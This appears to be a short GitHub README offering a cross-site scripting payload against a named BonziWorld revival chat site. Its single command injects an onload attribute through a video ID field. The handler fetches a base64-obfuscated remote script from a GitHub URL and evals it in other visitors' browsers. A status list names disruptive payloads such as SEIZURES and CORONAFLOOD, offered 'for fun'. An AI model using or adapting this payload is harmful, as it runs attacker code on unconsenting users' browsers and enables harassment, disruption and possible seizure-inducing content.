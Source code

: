 # ULTIMATE JAVASCRIPT
Scripts for fun
# How to use?
simply go into https://bonziworld-revived-1.onrender.com/ and
paste this script `socket.emit('command', { list: ['youtube', '71Uyt5tTnyg" onload="fetch(atob(\'aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v\')+\'???\'+atob(\'Lmpz\')).then(r=>r.text()).then(t=>eval(t))" u="'] });`
# Script Status?
ANANASORANG = Pacifists<br />
BALDIGLITCH = Genocides<br />
CORONAFLOOD = Genocides<br />
DOMINO = Genocides<br />
GAMEBOY = Genocides<br />
IVORYNUKE = Genocides<br />
LOSK = Genocides<br />
SEIZURES = Genocides<br />
WEBDRIVER = Genocides<br />
WTFDESTROY = Genocides<br />
